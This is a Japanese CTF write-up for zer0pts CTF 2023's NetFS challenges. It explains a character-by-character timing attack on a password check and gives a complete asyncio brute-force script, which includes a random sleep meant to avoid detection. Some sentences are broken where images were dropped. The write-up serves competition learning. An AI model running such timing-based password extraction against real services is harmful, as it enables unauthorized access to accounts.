


開催ありがとうございます！
zer0pts CTF 2023のwriteupです。今はmiscの問題の解説があります。

## Misc

### NetFS 1

タイミング攻撃を行う問題

### NetFS 2

Files:
- [netfs2.zip](./netfs2.zip)

NetFS 1の続き。
`server.py`の変更点が次の通り(画像で申し訳ない)。

`が追加されている。`Timeout`の秒数が短くなっている。")

パスワードをそれぞれ1文字ずつ比較しているという点は変わっていなさそうです。


得られる情報が`time(input)`だったのものが`time(input)+rand_delta()`になったという認識です[要出典]。`time(input)`の周辺に分布しそうです。


~~x軸とy軸が逆ではと思ってますが、実行するのが面倒なのでそのままにしてます。~~


平均を取ってみると、ちゃんと予想できることがわかります(お気持ち)。
実際に通信するコードを書きます。

* pwntoolsの`remote`を使うと、ブロックしてしまったので、`asyncio.open_connection`を使いました。
* また、`reset by peer`がリモートでのみ発生したので、`try-except`でリトライするようにしました。(これ、Exceptionの種類で判定できたらしい。なぜローカルで発生しなかったの...? )


<details>
<summary>code</summary> 


```python
import asyncio
import random
import string
import matplotlib.pyplot as plt

host = 'misc.2023.zer0pts.com'
# host = 'localhost'
port = 10022

USER = 'admin'
PASSWORD = ''
TIMEOUT = 8.0

for _ in range(len('0000000000000000')):
    task_performances = []

    async def tcp_echo_client(password) -> tuple[float, str]:
        # sleep for random time to avoid being detected
        await asyncio.sleep(random.random() * 10)

        reader, writer = await asyncio.open_connection(host, port)

        try:
            print(password, await asyncio.wait_for(reader.readuntil(b": "), timeout=TIMEOUT))
        except asyncio.TimeoutError:
            print(f'Timeout {password}, the remote server did not respond in time')
            # redo the connection
            writer.close()
            await writer.wait_closed()
            return await tcp_echo_client(password)
        writer.write((USER + "\n").encode())
        await writer.drain()
        try:
            await asyncio.wait_for(reader.readuntil(b": "), timeout=TIMEOUT)
        except asyncio.TimeoutError:
            print(f'Timeout {password}, the remote server did not respond in time')
            # redo
            writer.close()
            await writer.wait_closed()
            return await tcp_echo_client(password)

        writer.write(password.encode())
        await writer.drain()
        t_start = asyncio.get_event_loop().time()

        print(password, await asyncio.wait_for(reader.read(), timeout=TIMEOUT))

        t_end = asyncio.get_event_loop().time()
        delay = t_end - t_start

        print(password, delay, sep='\t')

        writer.close()
        await writer.wait_closed()

        task_performances.append((delay, password))

        return delay, password

    task_performances = []

    async def main():
        ret_task = []
        MAX_ITER = 5
        for cnt in range(MAX_ITER):
            try:
                tasks = [tcp_echo_client(PASSWORD + c) for c in string.digits + string.ascii_lowercase]
                await asyncio.gather(*tasks)
                ret_task.append(tasks)
                print(f"uouo: {cnt}/{MAX_ITER}")
            except Exception as e:
                print(f"Exception: {e}")
                cnt -= 1
                pass
        return ret_task

    tasks = asyncio.run(main())
    print(task_performances)

    # group task_performances by password
    task_performances2 = {}
    for task in task_performances:
        if task[1] not in task_performances2:
            task_performances2[task[1]] = []
        task_performances2[task[1]].append(task[0])

    task_performances = []
    for k, v in task_performances2.items():
        task_performances.append((sum(v) / len(v), k))

    # sort by delay
    task_performances.sort(key=lambda x: x[0])
    for task in task_performances:
        print(task)
        plt.scatter(task[0], task[1], label=task[1])

    plt.savefig(f"scatter_{host}_{len(PASSWORD)}.png", dpi=300)
    plt.clf()

    longest_task = min(task_performances, key=lambda task: task[0])
    print(f'Shortest task took {longest_task[0]}s with password {longest_task[1]}')
    PASSWORD += longest_task[1][-1]
    print(f"PASSWORD: {PASSWORD}")
print(f"PASSWORD: {PASSWORD}")

```

</details>

実行すると、flagが手に入りました。

想定は、`/proc/self/stat`とか`/proc/pid/wchan`らしい。